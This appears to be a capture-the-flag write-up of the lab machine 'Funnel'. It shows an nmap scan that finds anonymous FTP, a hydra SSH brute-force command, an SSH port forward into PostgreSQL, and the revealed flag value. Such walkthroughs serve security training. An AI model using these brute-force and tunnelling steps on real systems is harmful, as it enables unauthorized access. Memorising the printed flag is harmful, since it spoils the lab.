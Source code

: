 # Funnel

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/47ce9229-bb3f-4081-a5da-9d64737ef83e)

```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ sudo nmap -sC -sV 10.129.24.202
[sudo] password for melle: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-23 03:53 CDT
Nmap scan report for 10.129.24.202
Host is up (1.00s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.79 seconds
```

`| ftp-anon: Anonymous FTP login allowed (FTP code 230)`
`|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup`

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/f3b93e1f-f340-492a-8d7d-fa90af1a0da8)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/5873a8b2-b4dd-46c2-a394-0ab7582ee8f2)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4dc2f719-f89a-437e-bbf4-acc78df9aeba)
* password policy нээж үзтэл

  ![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/a1230f66-eccd-4941-955b-ab3966ba132b)

  ![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/21fad033-708b-417d-b83d-d2ffdf4f01df)
`$ hydra -L users.txt -P password.txt 10.129.24.202 ssh -t 4 -v `

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/bb52d43e-cd7b-45b2-ae6b-dfcfc1672fa0)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/68dce345-9f1b-42df-86e2-a61b0abd305d)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/2c9d1dc9-ec95-4e34-b41e-e4440f221d0e)

```
┌──(melle㉿tuguldur)-[~/Downloads/funnel]
└─$ ssh -L 1234:localhost:5432 christine@10.129.24.202
christine@10.129.24.202's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 23 Apr 2024 09:19:50 AM UTC

  System load:              0.0
  Usage of /:               63.2% of 4.78GB
  Memory usage:             13%
  Swap usage:               0%
  Processes:                163
  Users logged in:          1
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for ens160:  10.129.24.202
  IPv6 address for ens160:  dead:beef::250:56ff:feb0:ff8d

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/cbcb21be-f749-4c65-a6fa-44ece4f25611)


```
└─$ psql -U christine -p 1234 -h localhost 
Password for user christine: 
psql (16.2 (Debian 16.2-1), server 15.1 (Debian 15.1-1.pgdg110+1))
Type "help" for help.

```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/27711ffb-c694-4510-ac2b-507140417253)


```
secrets=# SELECT *FROM flag;
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1

```





  



``










